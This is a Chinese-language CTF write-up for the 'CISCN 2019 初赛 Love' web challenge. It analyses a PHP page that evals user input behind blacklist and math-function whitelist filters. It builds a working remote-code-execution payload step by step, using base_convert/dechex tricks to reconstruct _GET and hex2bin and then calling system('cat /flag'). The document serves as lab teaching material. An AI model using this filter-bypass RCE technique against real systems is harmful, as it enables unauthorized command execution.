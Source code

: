 ```yaml
---
author: 
  name: Zephyr
title: CISCN 2019 初赛 Love
date: 2022-7-22 10:32:31
permalink: /pages/2e1547494524d1d1
tags: 
  - buuctf
  - web
---
```


# CISCN 2019 初赛 Love

## 题目分析

题目是代码审计：

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
?>
```

第一部分，字长不能大于80

```php
$content = $_GET['c'];
if (strlen($content) >= 80) {
    die("太长了不会算");
}
```

第二部分，黑名单过滤，过滤了空格、换行符、单双引号、反引号、斜杠、中括号等

```php
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
foreach ($blacklist as $blackitem) {
    if (preg_match('/' . $blackitem . '/m', $content)) {
        die("请不要输入奇奇怪怪的字符");
    }
}
```

第三部分，白名单过滤，我们可以重用这里的函数名

```php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh','base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
foreach ($used_funcs[0] as $func) {
    if (!in_array($func, $whitelist)) {
        die("请不要输入奇奇怪怪的函数");
    }
}
```

第四部分，也就是命令执行利用点

```php
eval('echo '.$content.';');
```

## 知识点

### 动态函数

php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数，例如下面代码将执行`system('ls')`

```php
$function = "system";
$function("ls");
```

### 中括号`[]`的bypass

可使用`{}`号代替

## 解题

一般这种都是构造RCE，所以构造的目标字符串为`system('cat /flag')`,通过二次传参动态函数的方式RCE，那么我们需要构造：

```
?c=$_GET[func]&func=system('cat /flag')
?c=$_GET[fun]($_GET[argv])&fun=system&argv=cat flag;
```

本题进行了白名单过滤，尝试重用白名单，因为有长度显示，选择短的替换，将第二个payload变形如下

```
?c=$_GET[pi]($_GET[pow])&pi=system&pow=cat flag;
```

显然还剩下的`_GET`也不在白名单内，无法通过过滤

### 构造_GET

查找白名单发现`base_convert`函数，我们可以编写脚本

```php
<?php
$string="_GET";
$string=bin2hex($string);         //ASCII-> HEX
echo base_convert($string,16,10); //HEX -> DEC
?> 
//output:1598506324
```

然后使用

```php
hex2bin(base_convert(1598506324,10,16))；
//output:_GET
```

或

```php
hex2bin(dechex(1598506324))；
//output:_GET
```

即可以获得`_GET`,这里`dechex`函数在白名单内，并且整体长度更短，所以选择第二种，但`hex2bin`并不在白名单中

需要新构造`hex2bin`

同样还是使用`base_convert`函数，使用36进制进行转换

```php
<?php
$string="hex2bin";
echo $string=base_convert($string,36,10);
?> 
//output:37907361743
```

使用

```php
base_convert(37907361743,10,36)；
//output:hex2bin
```

即可获得`hex2bin`

tips：这里使用36进制而不是16进制的原因为：

- 16进制只能构造0-9,a-f的字符，而此处要构造`hex2bin`，不适用，而36进制包含所有字母

## payload

重新梳理一下，最开始构造的payload如下：

```
?c=$_GET[fun]($_GET[argv])&fun=system&argv=cat flag;
```

第一次替换，将payload中能直接替换的替换后如下：

```
?c=$_GET[pi]($_GET[pow])&pi=system&pow=cat flag;
```

第二次构造`_GET`后的payload如下(`base_convert(37907361743,10,36)(dechex(1598506324))`=>`_GET`)：

```
?c=$base_convert(37907361743,10,36)(dechex(1598506324)){pi}($base_convert(37907361743,10,36)(dechex(1598506324)){pow})&pi=system&pow=cat flag;
```

payload太长了，使用中间变量进行压缩，压缩后如下(`$pi`=>`_GET`)：

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{pi}($$pi{pow})&pi=system&pow=cat /flag
```